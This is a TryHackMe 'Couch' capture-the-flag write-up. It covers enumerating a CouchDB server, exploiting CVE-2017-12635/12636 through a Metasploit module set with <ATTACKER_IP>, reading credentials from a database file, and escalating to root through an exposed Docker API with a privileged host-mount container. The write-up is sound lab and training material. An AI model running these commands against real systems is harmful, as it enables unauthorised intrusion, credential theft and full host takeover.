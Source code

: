 ```yaml
---
layout: post
title: TryHackMe/Easy/Couch
abbrlink: 11390fa5f1cc42d5ad8eb69f79f9447e
tags:
  - couchdb
  - web
  - linux
  - docker
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Couch
date: 1721782705695
updated: 1721883276992
---
```


<https://tryhackme.com/r/room/couch>

# Enumeration

## \[+] 10.10.105.46 - couch.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.105.46 couch.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.105.46
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

After running the Nmap scans, we will find the ports 22 and 5984 open.

## \[+] Port 5984 - HTTP

### \[-] couch.thm

We'll start by fuzzing for directories and files using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt):

```sh
feroxbuster -u http://md2pdf.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

After a while, we will find the following directories:

![7b37af9f4e06ff070642796339391bab.png](/resources/428a7767723e44aaa4952faab56788fe.png)

### \[-] couch.thm:5984/\_utils/

Here we have access to CouchDB:

![97aef77c54d3bf3c01190ed6aee47225.png](/resources/96a45e60f65d451c9242d2e58127d39e.png)

### \[-] couch.thm:5984/\_all\_dbs

Checking the [CouchDB documentation](https://docs.couchdb.org/en/stable/api/server/common.html#get--_all_dbs) we will find the URL `couch.thm:5984/_all_dbs` will list all databases.

Let's use the [cURL](https://linux.die.net/man/1/curl) tool to send a request for this website with the `-vvv` flag to enable "Extremely Verbose" mode:

```sh
curl -vvv couch.thm:5984/_all_dbs
```

![e642cf03b2996800ecfc0f4125b322d7.png](/resources/8c0f82440d754258879e8e4d1750f0cc.png)

### \[-] couch.thm

Back to the CouchDB management system, we will find the version number in the bottom right corner:

![b11a0a5da06ce31ac6d09e159b37d45b.png](/resources/58045497eaed448aa4a398c9b135c0da.png)

Searching for "couchdb 1.6.1" on [Exploit-DB](https://www.exploit-db.com/) will lead us to [this Metasploit module](https://www.exploit-db.com/exploits/45019) on [CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)/[12636](https://nvd.nist.gov/vuln/detail/CVE-2017-12636). The combination of these two vulnerabilities will allow us to execute commands on the victim machine.

# Initial Foothold

### \[-] couchdb\@ubuntu

First, start Metasploit, select the exploit we want to use and then configure the options:

```sh
msfconsole
use linux/http/apache_couchdb_cmd_exec
options
set rhosts couch.thm
set lhost <ATTACKER_IP>
run
```

![85edab858f43c88edc473acc51f3c3ca.png](/resources/e0d4d514ee0d45f5b0295fec32010379.png)

We are currently in the `/var/lib/couchdb/` directory. Using the `ls` command along with the `-lah` flags will list all files, including hidden files in a human readable format:

![e84b7468944a63f3adbc9a08b28d4570.png](/resources/0762b11b547d4989bf70c54d8f83c7ce.png)

There is a `secret.couch` file which might contain credentials. If we use `cat` to read the file, there will be some unreadable output, so we'll use [strings](https://linux.die.net/man/1/strings) instead to print only the human readable strings:

```sh
strings secret.couch
```

![30e26ce7a643cd139e18318ab0b6901f.png](/resources/6779acc9bd8f422e90295b9cb284b510.png)

# Privilege Escalation

Checking the `/home/` directory, we will find a directory for the user `atena`:

```sh
ls -lah /home/
```

![d06f0d7f7cc553323e8f8ed38266bdea.png](/resources/0b680dc4fef84e3e99eb02b35b4dabb4.png)

## \[-] Port 22 - SSH

### \[-] atena\@ubuntu

Let's try to see if we can use the credentials we found from `secret.couch` to log in as `atena` via SSH using the [ssh](https://linux.die.net/man/1/ssh) command and provide the password when prompted:

```sh
ssh atena@$RHOSTS
```

![ae0919d8402a023a00bb2bb87e99cd01.png](/resources/df1929485b2c4622bcb44fcdb5dd078d.png)

We can find the user flag in `/home/atena/user.txt`:

```sh
ls -lah
cat user.txt
```

![c144cf12757facafa06b1b6c59ce53f7.png](/resources/29f3c33904004e358824b0c29f08a9f9.png)

### root\@ubuntu

Also inside in the `/home/atena/` directory, we will find the user did not clear out the `.bash_history` file which logs all the commands that were ran through the bash shell. Using `cat` we can print the contents and see what else we can find:

```sh
cat .bash_history
```

Towards the end of the log, we find that the user has installed [Docker](https://www.docker.com/) and is running on port 2375:

![b8152160c9ac9accda2b49f8c5bb88c4.png](/resources/5b66d08f5ff74886ba0b8da6b999866f.png)

Running the same command:

```sh
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

![c20134b5ca6291226ab595d2d8e5a7da.png](/resources/52e848aa5f0e407ea507e1793cb1c0be.png)

We will get a shell as `root`. The system volume is mounted to `/mnt/` and we can access the root flag in `/mnt/root/root.txt`:

```sh
cat /mnt/root/root.txt
```

![4a4cbe8729a543cfe885522905130d2c.png](/resources/cff1d0da523448218abe88db61f8f9b5.png)
